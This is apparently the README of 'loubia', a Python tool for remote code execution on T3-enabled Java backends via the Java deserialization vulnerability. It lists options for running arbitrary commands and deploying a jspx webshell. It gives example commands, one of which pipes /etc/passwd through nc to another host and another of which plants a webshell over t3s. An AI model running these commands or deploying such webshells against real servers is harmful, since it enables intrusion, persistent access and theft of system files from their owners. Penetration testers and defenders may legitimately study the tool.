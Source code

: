 # loubia
Python script that achieves remote code execution on t3 enabled backends. This is possible thanks to (or because of) the Java Unserialize vulnerability.
# Usage
Below is the help of Loubia showing its awesome functionalities:

		Usage: loubia.py hostname port [options]
		Options:
		  --version             show program's version number and exit
		  -h, --help            show this help message and exit
		  -c PAYLOAD, --cmd=PAYLOAD
		                        Command to execute
		  -o OS, --os=OS        Target operating system (unix/win). Default is unix
		  -l SHELL, --shell=SHELL
		                        shell to use (sh/bash). Default is sh
		  -s, --ssl             Use t3s protocol. Default : false
		  -p PROTOCOL, --protocol=PROTOCOL
		                        SSL protocol to use (sslv3/tlsv1/best). Default is
		                        sslv3
		  -w, --webshell        Deploy a jspx webshell
		  -u URL, --url=URL     Deploy the jspx webshell to the target URL path
		                        (webshell name will be URL_.jspx)
		  -v, --verbose         Print verbose output. Default : false

Examples:

Disclosing /etc/passwd to a local listening socket

		./loubia.py 192.168.1.2 7001 -c "cat /etc/passwd | nc 192.168.1.3 6666"
								
Deploying a webshell using bash on t3s

		./loubia.py 192.168.1.2 7002 -s -l bash -w

# Details
For more details see this post http://wtfsec.blogspot.fr/2016/03/loubia-exploitation-of-java-unserialize.html

